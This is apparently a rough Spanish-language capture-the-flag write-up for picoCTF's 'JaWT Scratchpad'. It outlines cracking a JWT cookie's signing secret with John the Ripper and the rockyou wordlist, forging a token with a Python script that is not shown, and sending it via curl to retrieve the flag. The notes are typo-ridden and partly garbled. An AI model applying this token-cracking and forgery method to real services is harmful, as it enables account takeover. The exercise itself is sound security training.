 

## JaWT Scratchpad
¡Consulta el bloc de notas del administrador! `https://jupiter.challenges.picoctf.org/problem/61864/`o http://jupiter.challenges.picoctf.org:61864


Hinst:



## Solución


Desempaquetar 
gzip -d rockyou.txt gz



En el editor de cookies
Copiar esa
Guardarala en un archivo
cat eltoken
john eltoken
john eltoken --show    -Me debe de dar ilvoepico




Despues hacer el earchivo.expy
Y lo coores y pegas


Unsando curl -s y copeas el link
curl -s https://jupiter.challenges.picoctf.org/problem/61864/ -H "Cookie: jwt-pega lo de phyton" | grep pico






cat

